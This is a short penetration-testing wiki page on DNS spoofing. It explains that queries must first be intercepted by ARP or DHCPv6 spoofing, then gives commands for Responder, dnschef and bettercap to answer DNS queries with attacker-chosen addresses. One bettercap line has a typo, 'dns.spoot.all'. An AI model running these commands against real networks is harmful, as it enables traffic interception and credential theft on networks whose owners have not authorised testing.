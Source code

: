 # DNS spoofing

## Theory

DNS is not multicast or broadcast like LLMNR, NBT-NS or mDNS. In order to spoof DNS requests, attacker first need to receive them. For instance, this can be achieved with [ARP spoofing](arp-poisoning.md) or [DHCPv6 spoofing](dhcpv6-dns-poisoning.md).

## Practice

{% tabs %}
{% tab title="Responder" %}
[Responder](https://github.com/SpiderLabs/Responder)'s \(Python\) DNS server feature can be used to answer DNS queries.

```bash
responder --interface eth0 
```
{% endtab %}

{% tab title="dnschef" %}
[dnschef](https://github.com/iphelix/dnschef) \(Python\) can be used as a DNS server. 

```bash
dnschef --fakeip 'Pentest_IP_Address' --interface 'Pentest_IP_Address' --port 53 --logfile dnschef.log
```
{% endtab %}

{% tab title="bettercap" %}
In order to spoof DNS requests, [bettercap](https://www.bettercap.org/) \(Go\) can be used. This tool can also be used for the first step of [ARP spoofing](arp-poisoning.md) or [DHCPv6 spoofing](dhcpv6-dns-poisoning.md). 

```bash
set dns.spoof.domains $DOMAIN_FQDN
set dns.spoot.all true
dns.spoof on
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.bettercap.org/modules/ethernet/spoofers/dns.spoof/" %}

